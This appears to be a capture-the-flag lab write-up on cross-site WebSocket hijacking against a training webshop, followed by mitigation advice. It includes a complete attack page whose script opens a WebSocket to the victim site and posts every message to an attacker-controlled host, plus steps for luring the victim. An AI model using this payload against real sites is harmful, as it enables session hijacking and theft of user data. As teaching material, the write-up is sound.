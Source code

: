 # Cowbell Shop 4 - CSWSH

## Challenge

Hijack another user WebSocket connection with an CSRF attack.

## Answer

### Explain the security problem 

* Web Sockets do not adhere to the same origin policy
* Any domain can open a web socket connection to another domain and send/receive data

### Explain your attack. \(exploit, screenshot, hacking journal\)  

Step 1-3\) Setup Hacking-Environment.  Open a Request Catcher and Theia Web IDE

Step 4\)  Changed the `change_me.html` file to:

{% code title="change\_me.html" %}
```markup
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>CSWSH</title>
  </head>
  <body>
    <h1>CSWSH</h1>
    <p>You got hacked!</p>
    <script type="text/javascript">
      var socket = new WebSocket(
        "wss://1b747ea1-3a09-4acc-8d8a-031e2fd2e267.idocker.vuln.land/socket.io/?EIO=3&transport=websocket"
      );
      socket.onopen = function(openEvent) {
        console.log(openEvent);
      };
      socket.onmessage = function(msgEvent) {
        console.log(msgEvent.data);
        var oReq = new XMLHttpRequest();
        oReq.open(
          "POST",
          "https://9a471a99-a077-47e4-a454-f7e6676acc1f.idocker.vuln.land/extractedData"
        );
        oReq.send(JSON.stringify(msgEvent.data));
      };
      socket.onerror = function(errEvent) {
        console.log(errEvent);
      };
    </script>
  </body>
</html>
```
{% endcode %}

Step 5\) Open webshop in new Incognito Tab and login in as the attacker

Step 6\) Pass the attackers url `https://16dfe2ff-d02a-4a24-8d06-21e07055a9af.idocker.vuln.land/change_me.html`  to the victim. Victim opens the url and gets the following output:  


![](../../.gitbook/assets/image%20%28379%29.png)

![](../../.gitbook/assets/image%20%28380%29.png)

Step 8\) check in the Request Catcher logs the flag received from the victim

![](../../.gitbook/assets/image%20%28386%29.png)



### Explain mitigation \(remedy\)

* Check the Origin header of the WebSocket handshake request on the server, since that header was designed to protect the server against attacker-initiated cross-site connections of victim browsers!
* Use **session-individual random tokens \(like CSRF-Tokens\)** on the handshake request and verify them on the server.
  * Embed the token into one of the HTML pages of your web application.
  * Create a REST endpoint where your client can fetch the token



### Answers

#### Are the CORS errors a problem for the attacker?

No, since WebSockets are not subordinated to CORS 

#### Explain the meaning of the errors

The access to the `/extractedData` target site from the `origin` is not allowed, since there is not Acces-Control-Allow-Origin HTTP Response Header present on the target site and therefore it violates the CORS policy

#### How do we mitigate the risk of a web socket based XSRF attack?

See above \(CSRF-Tokens with validation on server\)





## Lösung HL



```text
Use session-individual random tokens (like CSRF-Tokens) on the handshake request and verify them on the server.

Copied to clipboard
const io = require('socket.io') (server, {
    origins: ['{DOCKER_ADDRESS}'],
    transports: ['websocket']
});

oder auch SameSite, weil das gilt auch für WS
```


